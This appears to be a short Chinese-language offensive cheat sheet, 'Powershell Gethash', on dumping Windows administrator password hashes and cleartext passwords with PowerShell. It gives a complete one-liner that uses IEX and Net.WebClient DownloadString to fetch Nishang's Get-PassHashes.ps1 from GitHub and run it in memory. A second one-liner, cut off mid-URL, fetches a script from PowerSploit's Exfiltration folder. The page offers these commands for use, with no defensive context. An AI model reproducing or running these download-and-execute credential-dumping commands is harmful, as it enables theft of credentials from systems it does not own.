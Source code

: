 Powershell Gethash

使用powershell远程调用来抓取管理hash。




在线导hash

powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Get-PassHashes.ps1');Get-PassHashes


在线导明文

powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration
